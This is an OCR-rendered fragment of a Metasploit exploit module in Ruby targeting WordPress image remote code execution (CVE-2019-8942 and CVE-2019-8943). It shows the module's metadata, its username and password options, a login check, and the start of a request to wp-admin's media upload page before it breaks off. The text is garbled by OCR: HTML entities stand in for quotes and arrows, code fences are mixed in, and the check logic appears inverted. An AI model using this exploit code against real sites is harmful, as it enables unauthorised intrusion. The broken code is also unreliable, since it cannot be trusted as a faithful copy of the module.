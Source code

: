   'License'         =&gt; MSF_LICENSE,
  'Author'          =&gt;
  [
    'RIPSTECH Technology',                               # Discovery
    'Wilfried Becard &lt;wilfried.becard@synacktiv.com&gt;'    # Metasploit module
  ],
'References'      =&gt;
  [
    [ 'CVE', '2019-8942' ],
    [ 'CVE', '2019-8943' ],
    [ 'URL', 'https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/']
  ],
  'DisclosureDate'  =&gt; 'Feb 19 2019',
  'Platform'        =&gt; 'php',
  'Arch'            =&gt; ARCH_PHP,
  'Targets'         =&gt; [['WordPress', {}]],
  'DefaultTarget'   =&gt; 0
))

register_options(
  [
    OptString.new('USERNAME', [true, 'The WordPress username to authenticate with']),
    OptString.new('PASSWORD', [true, 'The WordPress password to authenticate with'])
  ]) 
```

end

def check

cookie = wordpress_login(username, password)

if cookie.nil?

store_valid_credential(user: username, private: password, proof: cookie)

return CheckCode::Safe

end

```
CheckCode::Appears 
```

end

def username

datastore[‘USERNAME’]

end

def password

datastore[‘PASSWORD’]

end

def get_wpnonce(cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘media-new.php’)

res = send_request_cgi(

‘method’    => ‘GET’,
```